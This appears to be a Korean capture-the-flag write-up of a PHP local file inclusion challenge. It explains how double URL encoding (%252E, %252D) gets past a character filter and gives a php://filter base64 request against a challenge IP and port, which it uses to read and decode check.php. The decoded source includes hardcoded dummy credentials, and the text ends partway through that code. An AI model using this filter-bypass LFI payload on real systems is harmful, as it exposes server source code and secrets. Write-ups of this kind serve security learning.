 # black cow in the box
![js](https://img.shields.io/badge/PHP-777BB4?style=for-the-badge&logo=php&logoColor=white)

## 개요
 - 스틸리언교육에서 풀어본 keris 제9회 blackbox 문제입니다.
 - lfi 인건 알고있었지만 조금 특이하게 풀이를 하는경향이 있어 문제해결에 어려움이 있었던것같습니다.
 - Source코드는 제공되지 않았습니다.

## Preview
![image](https://github.com/ChCh0i/steel/assets/108965611/6a37b99d-c2f3-4f07-be76-b4cdd7841398)
![image](https://github.com/ChCh0i/steel/assets/108965611/2932dd52-7843-4fc6-9faf-62566610735c)

## 시나리오
 - 먼저 param 입니다.

![image](https://github.com/ChCh0i/steel/assets/108965611/b6fb81c7-8f2e-41c0-a9fe-ae8dfdf7f549)
 - 파라미터의 값을 보면 GET_method를 통해 p라는 변수를 지정하였고 메인페이지를 로딩할때 check라는 값이 들어가는것을 확인할수있습니다.
 - 값을 아무 dummy data 로 바꾸었을시 아래와같이 공백의 페이지가 출력되는것을 확인할수있었습니다.
![image](https://github.com/ChCh0i/steel/assets/108965611/c89947b6-28f2-4993-8999-637f0170ff20)
 - 이때 부터 local file 을 include 하여 페이지를 불러오는것을 예상하였고 file 이 include 될때 .php라는 확장자가 암묵적으로 붙는다는것을 예상했습니다.
 - 저희는 아무런 소스코드를 제공받지않았고 해당 내용만으로는 flag에 접근할수없기에 main부터 소싱되는 page의 소스를 보기위해 check.php 라는 파일의 내용을 읽기위해 php wrapper를 활용하여 local file inclusion 공격을 시행하였습니다.
 - 공격을 실행하던중 필터링되었던 특정문자들이 있었고 공격에 필요한 문자중 필터링된 문자들과 필터링되었을때 페이지는 다음과 같습니다.
![image](https://github.com/ChCh0i/steel/assets/108965611/512c8867-d21c-4cfd-96a9-cc7ac5f8fc54)

```
. & -
```
 - 해당 문자들을 우회하기위해 url encoding을 한번더 encoding하는 double encoding을 활용하였고 double encoding된 문자들은 다음과 같습니다.
```
%252E & %252D
```
 - 우회된 해당 문자들을 이용하여 check.php에 해당하는 파일을 base64로 인코딩된 텍스트로 출력
```
http://13.125.23.252:11050/?p=php://filter/convert%252Ebase64%252Dencode/resource=check
```
 - 해당페이지를 소스하면 다음과 같은 페이지 출력
<img width="1470" alt="image" src="https://github.com/ChCh0i/steel/assets/108965611/991b5f05-7729-4e02-b79a-7f2c99bc83ed">
 - 위 내용을 아래와같이 base64 decode

```
<?php
    $username = $_POST['username'];
    $password = $_POST['password'];

    if ($_SERVER["REQUEST_METHOD"] !== "POST") {
        header('Location: /');
        exit;
    }

    if ($username && $password) {
        if ($username === "Th15_P4g3_15_F4k3!!" && $password === "H4H4") {
            header('Location: /');
        }
        else {
            echo "<script>
            alert('ìì´ë í¹ì ë¹ë°ë²í¸ë¥¼ íì¸í´ì£¼ì¸ì.');
```